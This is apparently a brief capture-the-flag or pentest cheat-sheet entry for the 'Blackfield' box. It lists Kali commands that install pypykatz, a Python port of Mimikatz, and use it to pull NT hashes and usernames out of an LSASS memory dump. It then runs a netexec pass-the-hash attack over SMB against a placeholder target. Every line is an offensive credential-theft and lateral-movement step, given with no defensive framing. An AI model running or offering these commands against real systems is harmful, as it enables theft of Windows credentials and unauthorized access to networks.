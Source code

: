 **Mimikatz in pure python.**
https://github.com/skelsec/pypykatz
```bash - kali
pip3 install pypykatz
```
```bash - kali
pypykatz lsa minidump lsass.DMP
```
```bash - kali
pypykatz lsa minidump lsass.DMP | grep 'NT:' | awk '{ print $2 }' | sort -u > hashes
```
```bash - kali
pypykatz lsa minidump lsass.DMP | grep 'Username:' | awk '{ print $2 }' | sort -u > users
```
```bash - kali
netexec smb $TARGET -u Blackfield/users -H Blackfield/hashes
```
